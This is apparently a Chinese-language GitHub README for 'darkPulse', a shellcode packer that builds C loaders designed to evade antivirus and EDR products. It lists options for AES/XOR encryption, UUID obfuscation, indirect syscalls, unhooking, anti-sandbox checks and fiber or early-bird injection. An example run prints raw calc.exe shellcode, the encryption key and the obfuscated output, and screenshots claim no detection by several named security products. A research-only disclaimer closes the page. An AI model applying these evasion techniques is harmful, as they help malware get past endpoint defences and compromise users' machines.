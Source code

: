 darkPulse是一个用go编写的shellcode Packer，用于生成各种各样的shellcode loader。

目前只实现了c语言的模板。

支持aes/xor加密，uuid/words混淆，支持间接syscall和unhook两种模式下的callback，fiber，earlybird三种加载方式。

间接sysacll使用了SysWhispers3的项目，链接：[klezVirus/SysWhispers3: SysWhispers on Steroids - AV/EDR evasion via direct system calls. (github.com)](https://github.com/klezVirus/SysWhispers3)

unhook使用了[自定义跳转函数的unhook方法 - root@Ev1LAsH ~ (killer.wtf)](https://killer.wtf/2022/01/19/CustomJmpUnhook.html)文中所讲述的方法，文中提到的github仓库https://github.com/trickster0/LdrLoadDll-Unhooking 只实现了64位下的demo，我在 [fdx-xdf/LdrLoadDll-Unhooking-x86-x64 (github.com)](https://github.com/fdx-xdf/LdrLoadDll-Unhooking-x86-x64) 完善了32位和64位通用的一段代码。

使用方法：

首先要配好gcc的环境，命令行运行`gcc -v`有反应即可

```
      _            _    _____       _          
     | |          | |  |  __ \     | |         
   __| | __ _ _ __| | _| |__) |   _| |___  ___ 
  / _` |/ _` | '__| |/ /  ___/ | | | / __|/ _ \
 | (_| | (_| | |  |   <| |   | |_| | \__ \  __/
  \__,_|\__,_|_|  |_|\_\_|    \__,_|_|___/\___|                                               

                                  author fdx_xdf
                                  version 1.0
                                  2024.04

Usage:
  -i <path>: 原始格式 Shellcode 的路径
  -enc <encryption>: Shellcode加密方式 (默认: aes)
  -lang <language>: 加载器的语言 (默认: c)
  -o <output>: 输出文件 (默认: Program)
  -k <keyLength>: 加密的密钥长度 (默认: 16)
  -obf <obfuscation>: 混淆Shellcode以降低熵值 (默认: uuid)
  -f <framework>: 目标架构32位还是64位
  -sandbox <true/false>: 是否开启反沙箱模式 (默认: true)
  -unhook <true/false>: 是否开启unhook模式 (默认: false,使用间接syscall加载)
  -loading <loadingTechnique>: 请选择加载方式，支持callback, fiber, earlybird (默认: fiber)
```

示例：

```
darkPulse.exe -i calc_shellcode.bin -f 32 -sandbox -unhook

     _            _    _____  _
     | |          | |  |  __ \| |
   __| | __ _ _ __| | _| |__) | |_   _ ___  ___
  / _' |/ _' | '__| |/ /  ___/| | | | / __|/ _ \
 | (_| | (_| | |  |   <| |    | | |_| \__ \  __/
  \__,_|\__,_|_|  |_|\_\_|    |_|\__,_|___/\___|

                                  author fdx_xdf
                                  version 1.0
                                  2024.04

开始为您打包exe

原始shellcode:0xfc, 0xe8, 0x82, 0x00, 0x00, 0x00, 0x60, 0x89, 0xe5, 0x31, 0xc0, 0x64, 0x8b, 0x50, 0x30, 0x8b, 0x52, 0x0c
, 0x8b, 0x52, 0x14, 0x8b, 0x72, 0x28, 0x0f, 0xb7, 0x4a, 0x26, 0x31, 0xff, 0xac, 0x3c, 0x61, 0x7c, 0x02, 0x2c, 0x20, 0xc1
, 0xcf, 0x0d, 0x01, 0xc7, 0xe2, 0xf2, 0x52, 0x57, 0x8b, 0x52, 0x10, 0x8b, 0x4a, 0x3c, 0x8b, 0x4c, 0x11, 0x78, 0xe3, 0x48
, 0x01, 0xd1, 0x51, 0x8b, 0x59, 0x20, 0x01, 0xd3, 0x8b, 0x49, 0x18, 0xe3, 0x3a, 0x49, 0x8b, 0x34, 0x8b, 0x01, 0xd6, 0x31
, 0xff, 0xac, 0xc1, 0xcf, 0x0d, 0x01, 0xc7, 0x38, 0xe0, 0x75, 0xf6, 0x03, 0x7d, 0xf8, 0x3b, 0x7d, 0x24, 0x75, 0xe4, 0x58
, 0x8b, 0x58, 0x24, 0x01, 0xd3, 0x66, 0x8b, 0x0c, 0x4b, 0x8b, 0x58, 0x1c, 0x01, 0xd3, 0x8b, 0x04, 0x8b, 0x01, 0xd0, 0x89
, 0x44, 0x24, 0x24, 0x5b, 0x5b, 0x61, 0x59, 0x5a, 0x51, 0xff, 0xe0, 0x5f, 0x5f, 0x5a, 0x8b, 0x12, 0xeb, 0x8d, 0x5d, 0x6a
, 0x01, 0x8d, 0x85, 0xb2, 0x00, 0x00, 0x00, 0x50, 0x68, 0x31, 0x8b, 0x6f, 0x87, 0xff, 0xd5, 0xbb, 0xf0, 0xb5, 0xa2, 0x56
, 0x68, 0xa6, 0x95, 0xbd, 0x9d, 0xff, 0xd5, 0x3c, 0x06, 0x7c, 0x0a, 0x80, 0xfb, 0xe0, 0x75, 0x05, 0xbb, 0x47, 0x13, 0x72
, 0x6f, 0x6a, 0x00, 0x53, 0xff, 0xd5, 0x63, 0x61, 0x6c, 0x63, 0x2e, 0x65, 0x78, 0x65, 0x00

[+] Generated AES key: 0x66, 0x4d, 0x72, 0x41, 0x70, 0x62, 0x37, 0x70, 0x4b, 0x5a, 0x68, 0x43, 0x62, 0x47, 0x69, 0x6d

[+] Generated IV (16-byte): 0x75, 0x4c, 0x73, 0x77, 0x44, 0x4b, 0x36, 0x62, 0x52, 0x53, 0x6b, 0x76, 0x64, 0x57, 0x62, 0x
32

[+] Using AES-128-CBC encryption

进行加密后的shellcode：0x17, 0x12, 0xa9, 0xb3, 0x8e, 0x84, 0x5b, 0x43, 0xd3, 0x93, 0x42, 0x09, 0x26, 0x6b, 0x16, 0x90, 0
xd9, 0xa0, 0x27, 0x18, 0x5a, 0x91, 0xc8, 0x15, 0xb3, 0x93, 0x4c, 0xf6, 0x65, 0x13, 0x10, 0x0c, 0x00, 0x81, 0xd6, 0xc9, 0
x4f, 0x45, 0x41, 0xa6, 0x5f, 0xc8, 0x69, 0x4e, 0x12, 0x2f, 0x04, 0x55, 0xf2, 0x54, 0x06, 0x15, 0x93, 0x72, 0xbd, 0x6d, 0
x4d, 0x40, 0x77, 0xba, 0x3d, 0x04, 0xb8, 0x9b, 0xcd, 0x6c, 0xe9, 0x08, 0x0f, 0x47, 0xeb, 0x38, 0x35, 0x6a, 0xb3, 0x7f, 0
xfc, 0xfe, 0xd2, 0x7c, 0x8b, 0xeb, 0x08, 0x1f, 0x33, 0x8d, 0xbf, 0xbb, 0x76, 0x53, 0x04, 0x10, 0x70, 0xf2, 0xa9, 0xb0, 0
xb9, 0x8a, 0x0c, 0xc3, 0xcb, 0xce, 0x7c, 0x21, 0x57, 0x11, 0x6f, 0x0c, 0x72, 0x1f, 0x8e, 0x0c, 0xc0, 0xe0, 0x06, 0x93, 0
xe9, 0x64, 0x1e, 0x1e, 0x06, 0x07, 0x16, 0x7d, 0x6f, 0xa0, 0x3e, 0x5d, 0x53, 0x91, 0xef, 0x94, 0x39, 0x84, 0x83, 0x0a, 0
xb4, 0x6e, 0xdd, 0xa8, 0x82, 0x38, 0x8a, 0x20, 0x9b, 0x40, 0x31, 0xaa, 0xb8, 0xd5, 0xe3, 0x60, 0x76, 0xc7, 0x5c, 0x98, 0
xbe, 0xba, 0xd5, 0x55, 0xe1, 0x2c, 0x0f, 0xf3, 0x6a, 0x47, 0x02, 0x03, 0xdd, 0xc3, 0xf0, 0x51, 0x64, 0x20, 0xe8, 0x74, 0
xcf, 0xac, 0x19, 0xbd, 0xf7, 0xae, 0x44, 0x53, 0x91, 0x60, 0x76, 0x36, 0xa0, 0xed, 0x75, 0x3a, 0xcb, 0x5a, 0xda, 0xeb, 0
xc5, 0x6f, 0x9d, 0x44, 0x8c, 0xd2, 0xbb, 0xc6, 0xd1, 0xe0, 0x7d, 0x48

[+] Generated UUIDs:"b3a91217-848e-435b-d393-4209266b1690",
"1827a0d9-915a-15c8-b393-4cf66513100c",
"c9d68100-454f-a641-5fc8-694e122f0455",
"150654f2-7293-6dbd-4d40-77ba3d04b89b",
"08e96ccd-470f-38eb-356a-b37ffcfed27c",
"1f08eb8b-8d33-bbbf-7653-041070f2a9b0",
"c30c8ab9-cecb-217c-5711-6f0c721f8e0c",
"9306e0c0-64e9-1e1e-0607-167d6fa03e5d",
"94ef9153-8439-0a83-b46e-dda882388a20",
"aa31409b-d5b8-60e3-76c7-5c98bebad555",
"f30f2ce1-476a-0302-ddc3-f0516420e874",
"bd19accf-aef7-5344-9160-7636a0ed753a",
"ebda5acb-6fc5-449d-8cd2-bbc6d1e07d48",

正在为您生成模板文件: Program.c

编译成功: Program.exe
```

即在当前目录下生成 Program.exe

注意：syscall下的earlybird方式由于某些bug并没有使用间接syscall方式加载，尽量不要使用，另外xor+uuid的特征过于明显，尽量不要使用。

目前实现效果如下：

微步云沙箱无检出

![image.png](https://cdn.nlark.com/yuque/0/2024/png/40360538/1711596621444-4b4ab40f-7327-481f-a5f8-ca2d39330db6.png#averageHue=%23a0dcba&clientId=u723e99f6-9ffc-4&from=paste&height=911&id=u10f5a780&originHeight=1367&originWidth=2549&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=218236&status=done&style=none&taskId=u85e7150f-15a5-4768-a501-f4ea03a3050&title=&width=1699.3333333333333)

360（未开核晶）：无检出

![image](https://github.com/fdx-xdf/goPacker/assets/117912115/c3dcf083-609e-4b55-87c1-8311e5d28a40)

火绒：无检出

![image.png](https://cdn.nlark.com/yuque/0/2024/png/40360538/1712452727509-f3c2d4b3-90ab-448d-9335-d8ac90a3a2a3.png?x-oss-process=image%2Fformat%2Cwebp%2Fresize%2Cw_1125%2Climit_0)

360（开启核晶）：无检出（使用syscall和unhook两种方式生成的exe均成功绕过核晶）

![image.png](https://cdn.nlark.com/yuque/0/2024/png/40360538/1712553684319-6e2573f1-7d58-4c36-9f92-4dba958a67f5.png?x-oss-process=image%2Fformat%2Cwebp%2Fresize%2Cw_1125%2Climit_0)
to do list:

- go模板
- 更多加密算法
- 分离加载
- ~~- unhook~~
- .....

## 免责声明

本项目仅用安全研究的学习交流和研究，强烈不建议您用于任何的实际途径（包括黑灰产交易、非法渗透攻击、割韭菜），网络不是法外之地！如果您使用该工具则应该自觉遵守以上要求。

